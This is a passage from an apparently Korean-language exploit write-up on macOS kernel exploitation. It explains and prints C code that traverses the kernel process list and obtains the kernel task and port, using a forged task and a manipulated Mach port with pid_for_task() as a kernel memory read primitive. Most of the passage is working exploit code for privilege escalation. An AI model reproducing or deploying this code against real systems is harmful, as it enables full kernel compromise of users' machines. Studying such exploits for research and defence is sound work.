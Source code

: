 실제 pid_for_task()의 용도(PID 구하기)처럼 프로세스를 트레버싱하며 원하는 PID를 가진 프로세스를 찾을 수 있다.

사용된 코드는 아래와 같다:

{% highlight c %}
uint64_t get_proc_addr(uint64_t pid, uint64_t kernel_addr, void* fake_task, mach_port_t* manipulated_port){
	uint64_t allproc_real_addr = 0xffffff8000ABB490 - 0xffffff8000200000 + kernel_addr;
	
	uint64_t pCurrent = allproc_real_addr;
	uint64_t pNext = pCurrent;
	while (pCurrent != NULL) {
		int nPID = 0;    
		*(uint64_t*) (fake_task + TASK_INFO_GAP) = pCurrent;
		pid_for_task(manipulated_port, (int32_t*)&nPID);
		if (nPID == pid) {
			return pCurrent;
		}
		else{
			*(uint64_t*) (fake_task + TASK_INFO_GAP) = pCurrent - 0x10;
			pid_for_task(manipulated_port, (int32_t*)&pNext);
			*(uint64_t*) (fake_task + TASK_INFO_GAP) = pCurrent - 0x0C;
			pid_for_task(manipulated_port, (int32_t*)(((uint64_t)(&pNext)) + 4));
			pCurrent = pNext;
		}
	}

}
{% endhighlight %}


#### (6) 커널 권한 획득 ( AAR / AAW )

권한 상승을 위해, 즉 커널의 권한을 얻기 위해 얻어야할 정보는 커널 프로세스가 가진 포트 권한과 Kernel Task 이다.

사용된 코드는 아래와 같다:

{% highlight c %}
dumpdata* get_kernel_priv(uint64_t kernel_process, uint64_t* fake_port, void* fake_task, mach_port_t* manipulated_port){
	dumpdata* data = (dumpdata *)malloc(sizeof(dumpdata));
	data->dump_port = malloc(0x1000);
	data->dump_task = malloc(0x1000);

	uint64_t kern_task = 0;
	*(uint64_t*) (fake_task + TASK_INFO_GAP) = (kernel_process + 0x18) - 0x10 ;
	pid_for_task(manipulated_port, (int32_t*)&kern_task);
	*(uint64_t*) (fake_task + TASK_INFO_GAP) = (kernel_process + 0x1C) - 0x10;
	pid_for_task(manipulated_port, (int32_t*)(((uint64_t)(&kern_task)) + 4));

	uint64_t itk_kern_sself = 0;
	*(uint64_t*) (fake_task + TASK_INFO_GAP) = (kern_task + ITK_KERN_SSELF_GAP_IN_TASK) - 0x10;
	pid_for_task(manipulated_port, (int32_t*)&itk_kern_sself);
	*(uint64_t*) (fake_task + TASK_INFO_GAP) = (kern_task + ITK_KERN_SSELF_GAP_IN_TASK + 4) - 0x10;
	pid_for_task(manipulated_port, (int32_t*)(((uint64_t)(&itk_kern_sself)) + 4));
	data->dump_itk_kern_sself = itk_kern_sself;

	for (int i = 0; i < 256; i++) {
		*(uint64_t*) (fake_task + TASK_INFO_GAP) = (itk_kern_sself + i*4) - 0x10;
		pid_for_task(manipulated_port, (int32_t*)(data->dump_port + (i*4)));
	}
	for (int i = 0; i < 256; i++) {
		*(uint64_t*) (fake_task + TASK_INFO_GAP) = (kern_task + i*4) - 0x10;
		pid_for_task(manipulated_port, (int32_t*)(data->dump_task + (i*4)));
	}
	return data;
}
{% endhighlight %}